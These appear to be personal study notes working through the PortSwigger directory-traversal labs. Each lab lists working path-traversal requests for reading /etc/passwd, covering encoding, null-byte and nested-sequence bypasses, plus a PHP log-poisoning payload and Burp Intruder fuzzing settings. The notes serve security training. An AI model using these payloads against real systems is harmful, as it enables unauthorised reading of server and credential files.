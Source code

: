 •	PORTSWINGER LABS: Directory traversal

•	Lab 1: File path traversal, simple case
o	GET /image?filename=19.jpg
o	GET /image?filename=../../../etc/passwd

•	Lab 2: File path traversal, traversal sequences blocked with absolute path bypass
o	GET /image?filename=11.jpg HTTP/1.1
o	GET /image?filename=/etc/passwd HTTP/1.1

•	Lab 3: File path traversal, traversal sequences stripped non-recursively
o	GET /image?filename=10.jpg HTTP/1.1
o	In this case
	It could be the Protection:
	../  {Nothing}
	../etc/passwd  etc/passwd
	Protection will remove ../ so we need to use ....//
	....//....//etc/passwd  ../../etc/passwd
•	It will remove red part and the other part will execute. OR
	..././  ../
o	GET /image?filename=..././..././..././etc/passwd HTTP/1.1
o	GET /image?filename=....//....//....//etc/passwd HTTP/1.1

•	Lab 4: File path traversal, validation of file extension with null byte bypass
o	GET /image?filename=20.png HTTP/1.1
o	In this case, sometime file extension is necessary but if we use passwd.png then it will not work bcz passwd file does not contain any extension, so we need to use null byte
	%00  it will remove part after %00
•	Passwd%00.png
	%20  create space in between both.
	%2a  put text after in underline.
	%0a  through on next line.
	%09  put TAB
o	GET /image?filename=../../../etc/passwd%00.png HTTP/1.1

•	Lab 5: File path traversal, validation of start of path
o	GET /image?filename=/var/www/images/1.jpg HTTP/1.1
o	In this case, path is given and just replace file with our path, then it will work.
o	GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1

•	Lab 6: File path traversal, traversal sequences stripped with superfluous URL-decode
o	GET /image?filename=11.jpg HTTP/1.1
	In this case, we need to encode ../ in url, that is %2e%2e%2f or just encode / in url, %2f
	%2f  / (Single encoding)
	%252f  %2f  / (Double encoding) (CTRL + U )
	%2e%2e%2f  ../ (Single encoding)
	%252e%252e%252f  %2e%2e%2f  ../ (Double encoding)
o	GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1
o	GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd HTTP/1.1
•	We can paste payload in User-Agent only if we are able to access log file.
o	<?php phpinfo()?>

•	BURPSUIT INTRUDER: emadshanab/LFI-Payload-List | GitHub
o	Place the payload location in the parameter and paste payloads.
o	Add root:x in Options > Grep-Match
o	To speed up, Create new resource pool, and put 100 in Max concurrent requests.
